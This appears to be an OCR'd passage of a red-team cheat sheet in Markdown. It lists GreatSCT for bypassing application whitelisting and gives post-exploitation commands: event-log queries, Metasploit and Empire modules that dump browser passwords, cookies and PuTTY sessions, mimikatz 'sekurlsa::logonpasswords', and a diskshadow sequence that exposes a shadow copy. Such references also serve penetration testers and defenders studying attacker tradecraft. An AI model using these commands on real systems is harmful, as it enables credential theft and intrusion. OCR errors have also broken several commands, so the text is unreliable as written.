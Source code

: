 ### Tools
| Command  | Descriptions |
| -------- | ------------ |
| [GreatSCT](https://github.com/GreatSCT/GreatSCT) | The project is called Great SCT (Great Scott). Great SCT is an open source project to generate application white list bypasses. This tool is intended for BOTH red and blue team. |

## Post exploitation

### Reading Event Logs
```bash
et-WinEvent -ListLog *

# Listing logs of a specific user
$cred = Get-Credentials
Get -WinEvent -ListLog * -ComputerName AD1 -Credentials $cred

# Reading Security logs
(Get-WinEvent -FilterHashtable @{LogName = 'Security'} | Select-Object @{name='NewProcessNam
e';expression={ $_.Properties[5].Value }}, @{name='CommandLine';expression={
$_.Properties[8].Value }}).commandline
```

### Password Dump

```bash
# Metasploit
post/windows/gather/enum_chrome
post/multi/gather/firefox_creds
post/firefox/gather/cookies
post/firefox/gather/passwords
post/windows/gather/forensics/browser_history
post/windows/gather/enum_putty_saved_sessions

# Empire
collection/ChromeDump
collection/FoxDump
collection/netripper
credentials/sessiongopher

# mimikatz
privilege::debug
sekurlsa::logonpasswords
```

### Shadow copy
```bash
diskshadow.exe
set context persistent nowriters
add volume C: alias VALUE
create
expose %VALUE% Z:

# Deletion
delete shadows volume %VALUE%
reset
```
